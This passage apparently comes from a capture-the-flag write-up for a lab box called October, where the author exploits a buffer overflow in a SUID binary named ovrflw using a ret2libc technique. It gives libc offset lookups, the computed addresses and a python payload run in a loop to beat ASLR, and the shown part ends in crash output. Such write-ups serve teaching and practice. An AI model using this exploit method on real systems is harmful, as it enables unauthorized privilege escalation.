 
That will input 112 As, and then 4 Bs. It crashes:



    Stopped reason: SIGSEGV
    0x42424242 in ?? ()



The address is 0x42424242, which is BBBB.

### ovrflw Ret to libc

I'll find an address of libc:



    www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
            libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75f8000)



And I can get offsets for system, exit, and bin/sh:



    www-data@october:/dev/shm$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
       139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
      1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
    www-data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/" 
     162bac /bin/sh
     164b10 /bin/csh



For this libc base (which is right 1/512 times):



    exit: 0xb75f8000+0x33260 = 0xB762B260
    system: 0xb75f8000+0x40310 = 0xB7638310
    /bin/sh: = 0xb75f8000+0x162bac = 0xB775ABAC



I'm going to overflow such my buffer goes \[JUNK\] + SYSTEM (ret address
overwrite) + EXIT (next return address) + "/bin/sh" (args).

### Exploit

If ASLR weren't enabled, I could just do this:



    www-data@october:/dev/shm$ /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"');



Because ASLR is enabled, I'll do it in a loop until I get a shell:



    www-data@october:/dev/shm$ while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
    *** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbfeeae83 ***
    Aborted (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Illegal instruction (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)